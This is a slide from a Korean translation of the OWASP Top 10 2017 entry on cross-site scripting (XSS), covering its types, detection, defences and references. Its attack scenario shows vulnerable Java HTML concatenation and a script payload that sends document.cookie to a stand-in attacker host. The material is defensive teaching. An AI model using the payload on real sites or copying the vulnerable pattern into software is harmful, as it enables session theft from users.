

A7
:2017
# 크로스 사이트 스크립팅 (XSS)
|  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
|  | 공격 가능성: 3 | 확산 정도: 3 | 탐지 가능성: 3 | 기술: 2 |  |
| 자동화된 도구는 세 가지 유형의 모든 크로스 사이트 스크립팅(XSS)의 취약점을 탐지하거나 악용할 수 있습니다. 그리고 자유롭게 활용 가능한 공격 프레임워크가 있습니다. |  | 크로스 사이트 스크립팅(XSS)은 OWASP TOP10에서 두 번째로 많이 발생하는 문제이며, 모든 응용 프로그램의 약 2/3에서 발견됩니다. 자동화된 도구는 PHP, J2EE/JSP 및 ASP.NET과 같은 성숙된 기술에서 자동으로 몇 가지 XSS 문제점들을 찾을 수 있습니다. |  | 크로스 사이트 스크립팅(XSS)의 영향은 피해자의 브라우저 상에서 원격 코드 실행으로 인증 혹은 세션 정보를 훔치거나 피해자에게 악성코드를 전달하는 것과 같이, 비지속성(리플렉티드)과 DOM 기반 XSS는 중간 정도이고, 저장(지속성) XSS에 대해서는 심각하다. |  |
위협요소
보안 취약점
공격요인
영향
애플리케이션 특징
비즈니스?
취약점 확인 방법
일반적으로 사용자의 브라우저를 목표로 하는 세 가지 형태의 크로스 사이트 스크립팅(XSS)이 있습니다:
리플렉티드 XSS: HTML 출력의 일부로써 유효성이 확인되지 않고, 특수문자가 필터되지 않은 사용자 입력이 애플리케이션 혹은 API에 포함됩니다. 공격이 성공하면 공격자는 피해자의 브라우저에서 임의의 HTML과 자바스크립트를 실행할 수 있습니다. 전형적으로 사용자는 악의적인 워터링 홀 공격을 수행하는 웹 사이트, 광고 사이트 혹은 이와 유사한 공격자에 의해 제어되는 페이지를 가리키는 몇몇 악의적인 링크와 상호 작성을 해야 할 필요가 있습니다.
저장 XSS: 응용 프로그램 또는 API에서 나중에 다른 사용자 또는 관리자가 볼 수 있는 정제되지 않은 사용자 입력값이 저장됩니다. 저장 XSS는 종종 높은 혹은 중대한 위험으로 간주됩니다.
DOM 기반 XSS: 페이지에 공격자가 제어 가능한 데이터를 동적으로 포함할 수 있는 자바스크립트 프레임워크, 한 페이지 애플리케이션, 그리고 API는 DOM 기반 XSS에 취약합니다. 이론상으로 애플리케이션은 안전하지 않은 자바스크립트 API로 공격자가 제어 가능한 데이터를 보내지 않습니다.
전형적인 XSS 공격은 세션 도용, 계정 탈취, 다중 요소 인증 우회, 트로이 목마 악성코드 배포 로그인 패널과 같은 DOM 노드 대체 혹은 변조, 악성코드 다운로드, 키 로깅, 그리고 다른 클라이언트 측면의 공격과 같은 사용자 브라우저에 대한 공격을 포함합니다.
보안 대책
XSS를 방지하려면 신뢰할 수 없는 데이터를 사용 중인 브라우저 컨텐츠와 분리해야 합니다. 이것은 다음에 의해 달성될 수 있습니다:
최신 Ruby on Rails, React JS와 같이 XSS를 자동으로 필터링 처리하는 프레임워크를 사용합니다. 각 프레임워크의 XSS 보호의 한계를 알아보고 다루지 않은 사용 사례들을 적절히 처리하기 바랍니다.
HTML 출력(본문, 속성, 자바스크립트, CSS 혹은 URL) 내 컨텍스트 기반으로 신뢰할 수 없는 HTTP 요청 데이터를 필터링하며 리플렉티드 및 저장 XSS 취약점이 해결됩니다. 요구되는 데이터 필터링 기술에 대한 상세 내용은 OWASP 치트 시트 'XSS 방어’ 을 참고 바랍니다.
클라이언트 측에서 브라우저 문서를 수정할 때 상황에 맞는 인코딩을 적용하면 DOM XSS에 대해 대응할 수 있습니다. 이것으로 방어할 수 없는 경우, OWASP 치트 시트 'DOM 기반 XSS 방어’ 에서 기술된 바와 같이 브라우저 API에 유사한 문맥 감지 필터링 기술을 적용할 수 있습니다.
컨텐츠 보안 정책(CSP)의 활성화는 XSS에 대한 심층적인 방어 통제입니다. 로컬 파일 첨부(예: 경로 조작 덮어 쓰기 또는 허용된 콘텐츠 제공 네트워크의 취약한 라이브러리)를 통해 악성코드를 배치할 수 있는 다른 취약점이 없는 경우라면 효과적입니다.
공격 시나리오 예제
시나리오 #1: 이 애플리케이션은 유효성 검사 또는 필터링 처리없이 다음의 HTML 조각의 구성 내 신뢰할 수 없는 데이터를 사용합니다:
  (String) page += "<input name='creditcard' type='TEXT'
  value='" + request.getParameter("CC") + "'>";
공격자는 브라우저 내에서 다음과 같이 ‘CC’ 파라미터를 조작합니다:
  '><script>document.location=
  'http://www.attacker.com/cgi-bin/cookie.cgi?
  foo='+document.cookie</script>'.
이 공격으로 인해 피해자의 세션 ID가 공격자의 웹 사이트로 전송되어 공격자가 사용자의 현재 세션을 가로챌 수 있습니다.
주: 공격자는 XSS를 사용하여 애플리케이션이 사용할 수 있는 자동화된 크로스 사이트 요청 변조(CSRF) 방어를 무력화할 수 있습니다.
참조문서

OWASP
OWASP Proactive Controls: Encode Data
OWASP Proactive Controls: Validate Data
OWASP Application Security Verification Standard: V5
OWASP Testing Guide: Testing for Reflected XSS
OWASP Testing Guide: Testing for Stored XSS
OWASP Testing Guide: Testing for DOM XSS
OWASP Cheat Sheet: XSS Prevention
OWASP Cheat Sheet: DOM based XSS Prevention
OWASP Cheat Sheet: XSS Filter Evasion
OWASP Java Encoder Project
외부자료
CWE-79: Improper neutralization of user supplied input
PortSwigger: Client-side template injection